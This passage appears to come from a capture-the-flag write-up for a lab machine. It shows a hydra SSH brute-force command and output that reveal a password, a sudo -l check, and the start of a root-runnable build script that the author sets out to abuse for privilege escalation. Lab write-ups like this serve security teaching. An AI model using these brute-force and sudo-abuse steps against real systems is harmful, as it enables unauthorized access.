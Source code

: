 Now I will bruteforce the ssh with `hydra`:

```
history ~ $ hydra -L users.txt -p denjanjade122566 ssh://10.10.11.206
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-29 01:13:04
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:7/p:1), ~1 try per task
[DATA] attacking ssh://10.10.11.206:22/
[22][ssh] host: 10.10.11.206   login: tkeller   password: denjanjade122566
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-29 01:13:10
```

And we have ssh credentials: `tkeller:denjanjade122566`.    

### Shell as root
------------------

Now we are on the machine and we know the password, we should run `sudo -l` to see if there are misconfigured sudo permissions.

```
tkeller@socket:~$ sudo -l
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
```

And we can see that `tkeller` can run `/usr/local/sbin/build-installer.sh` as root.    

```bash
#!/bin/bash
if [ $# -ne 2 ] && [[ $1 != 'cleanup' ]]; then
  /usr/bin/echo "No enough arguments supplied"
  exit 1;
fi

action=$1
name=$2
ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')

if [[ -L $name ]];then
  /usr/bin/echo 'Symlinks are not allowed'
  exit 1;
fi

if [[ $action == 'build' ]]; then
  if [[ $ext == 'spec' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /home/svc/.local/bin/pyinstaller $name
    /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'make' ]]; then
  if [[ $ext == 'py' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
```